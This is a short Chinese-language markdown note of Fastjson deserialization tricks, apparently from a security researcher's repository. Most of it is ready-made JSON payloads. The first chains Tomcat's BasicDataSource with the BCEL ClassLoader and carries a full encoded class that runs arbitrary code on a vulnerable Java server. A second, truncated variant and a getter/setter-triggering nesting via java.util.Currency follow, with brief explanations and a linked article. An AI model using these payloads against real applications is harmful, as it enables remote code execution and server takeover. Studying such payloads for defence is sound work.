 # FastJson Trick.md

## parse调用parseObjetc从而触发setter

Fastjson反序列化的时候所用的是Parse而不是ParseObject，这里就会有一个Trick，就是在原本的@type上再嵌套一层@type，并设置为 '@type':"com.alibaba.fastjson.JSONObject",

```
{
    {
        '@type':"com.alibaba.fastjson.JSONObject",
        'a':
        {
            '@type':"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
            'driverClassLoader':
            {
                '@type':"com.sun.org.apache.bcel.internal.util.ClassLoader"
            },
            'driverClassName':'$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$5dO$U1$U$3d$dd$af$ce$8e$b3$C$8b$a0$$$$$f2$a9$L$89$cc$8bo$Q$TB01$aeb$i$a2$d9$Y$S$3a$a5Y$8a$b33$cdL$d7$ac$bf$c8g$5e$d0$98$e8$P$f0G$Zn$t$E$fc$e8$c3m$ef$e99$e7$de$de$fe$fa$fd$fd$t$80$a7x$ec$e3$W$e6$7c$cc$e3$$$c7$3d$P$f7$3dt$3c$y8$e0$BG$d7$87$87E$8e$87$iK$M$8d$j$9dj$fb$8c$a1$da$dbx$c7P$db$cbN$U$c3T_$a7$ea$f5x$U$ab$fcP$c4$J$n$de$8eL$ae$98$ad$c8$K$f9$f1$950$e5$V$Z2$f8Q6$ce$a5z$ae$j5$d8$9f$98$q$d3v$ebL$7c$S$B$C$b48$96$D$ac$60$95a$daaa$o$d2a$Y$d9$5c$a7C$86f$Y$eb4$8cEq$caPy$o$Zz$99Q$e9R$Y$7d$$$ac$g$85$bb$c6$qZ$K$ab$b3$b4$I$f7D$o$c7$89$b0Y$be$r$8c$J$b0$86u$86$d9$d2Sg$e1$8b$83$fd$89T$c6Q$D$3cB$8b$81_$b5$f2W$e1$83$f8LI$82fn$a0$b7$e3$d4$ea$R$f5$ee$P$95$bdN$e6z$h$fd$ff8$db4$q5Q$ae$cf$de$87$fe$bf$cf$d9$feS$f1$s$cf$a4$w$KRL$Z$ba$b4$e5$dc$Os$n$V$96$e1$fe$c8$ad$K$98$h$R$c5$db$94uig$b4$d77$bf$82$9d$d3$81$b4$U$h$r$d8$a4$8f$9b$be$a6$k$a3$5e$a2$ab$dfPi$fc$40uPm$d7$a2A$ad$5d$8f$G$f5v$p$ba$A$7f$ff$F$de$cb$cd$L4$cfKb$87$dc$3d$aa$e7$M$e7I$M$aa$db$a1$acK$96$8bd$b9B$e63$84rT$8e8$da5$S$cd$96$N$de$b9$E5$c7$QjZ$C$A$A',
             "DefaultCatalog":"23333"
        }
    }:'b'
}
```
## parse触发get另一种思路
https://mp.weixin.qq.com/s?__biz=MzAxNTg0ODU4OQ==&mid=2650358489&idx=1&sn=2d1f600da6f01b644544331a844139ae&chksm=83f0273bb487ae2d85984c541adc7a928bdca396aa6ad3c0c349e2ef044558539f2f7075ad1f&mpshare=1&scene=23&srcid=1123yB78GUjwHduKmaU9BGSa&sharer_sharetime=1637650532436&sharer_shareid=18ef5175242004180f2ee4dd9c244e8a#rd
```
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```
这里PoC结构上还有一个值得注意的地方在于，

先是将 {"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……} 这一整段放到JSON Value的位置上，之后在外面又套了一层 "{}"。

之后又将 Payload 整个放到了JSON 字符串中 Key 的位置上。


## su18师傅分享的一种触发getter/setter思路
```
{
	"@type": "java.util.Currency",
	"val": {
		"currency": {
			"abc": {
				"@type": "java.util.Map",
				"aaa": {
					"@type": "org.su18.fastjson.common.Person",
					"a": "s",
					"age": 12,
					"name": "su18"
				}
			}
		}
	}
}
```
